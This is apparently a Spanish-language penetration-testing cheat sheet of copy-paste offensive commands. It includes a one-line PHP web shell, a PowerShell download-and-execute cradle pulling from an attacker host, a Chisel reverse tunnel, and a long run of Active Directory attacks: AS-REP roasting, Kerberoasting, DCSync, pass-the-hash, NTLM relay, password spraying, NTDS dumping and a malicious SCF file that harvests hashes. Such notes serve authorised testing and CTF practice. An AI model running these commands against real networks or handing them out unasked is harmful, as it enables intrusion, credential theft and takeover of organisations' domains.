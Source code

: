 # Cheatsheet
Cosas copypaste

# Reverse Shells

Web Shell PHP
```
<?php system($_GET[cmd]);?>
```

Web Shell .aspx
```
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx
```

# Powershell

Descargar binarios
```
powershell IEX(New-Object Net.WebClient).downloadString("http://IP:PORT/binario.binario")
```

# PostExplotacion

## Chisel

Atacante
```
./chisel server --reverse -p ATACKER_PORT
```

Víctima
```
./chisel client ATTACKER_IP:ATTACKER_PORT R:VICTIM_IP:VICTIM_PORT
```

## Mejorar Shell

Linux
```
script /dev/null -c bash
```
```
stty raw -echo ;fg
```
```
reset xterm
```
```
export TERM=xterm
```
```
export SHELL=bash
```

# Enumeracion

## Directory Listing & subdomain discovering

wfuzz

```
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.dominio.ext" url
```
Gobuster

```
gobuster vhost -u url -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

# Active Directory (AD)

Kerbrute

```
kerbrute -users userlist.txt -dc-ip IP -domain domain.local
```
ASREPRoasting

```
GetNPUsers.py -dc-ip IP domain.local/user -outputfile hashes.asreproast
```
Kerberoastin

```
GetUserSPNs.py DC-IP\user:password
```
DRSUAPI (DCSync)

```
secretsdump.py domain.local/USER:PASSWORD@IP
```
Pass the hash

```
evil-winrm -i IP -u user -H 'NTHash'
```
```
psexec.py domain.local/user@ip -hashes 'LMHASH:NTHASH'
```
```
wmiexec.py user@IP -hashes 'LMHASH:NTHASH'
```
SMB Relay

```
responder -I  NETINTERFACE rdw
```
NTLM Relay (SAM dumping without 'c' flag)

```
python3 ntlmrelayx.py -tf targets.txt -smb2support -c 'command' 
```
Domain Host Discovery

```
crackmapexec smb network/address
```
User & Password Spraying

```
crackmapexec smb network/address -u users -p passwords
```
NTDS dumping

```
crackmapexec smb network/address -u users -p passwords --ntds vss
```
Userenum with RPC (-N para Null Session)

```
rpcclient -U 'domain.local\user%password' IP -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x'
```
Descripcion usuarios with RPC

```
for rid in $(rpcclient -U 'dominio.local\user%password' IP -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x'| tr -d '[]'); do echo -e "\n[+] Para el RID $rid:\n";  rpcclient -U 'dominio.local\user%password' IP -c "queryuser $rid" | grep -E -i "user name|description" ;done
```
ldapdomaindump

```
service apache2 start
```
```
ldapdomaindump -u 'domain.local\user' -p 'password' targetIP
```
Malicious SCF File

```
[Shell]
Command=2
IconFile=\\IP\smbfolder\CronoX.ico
[Taskbar]
Command=ToggleDesktop
```
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
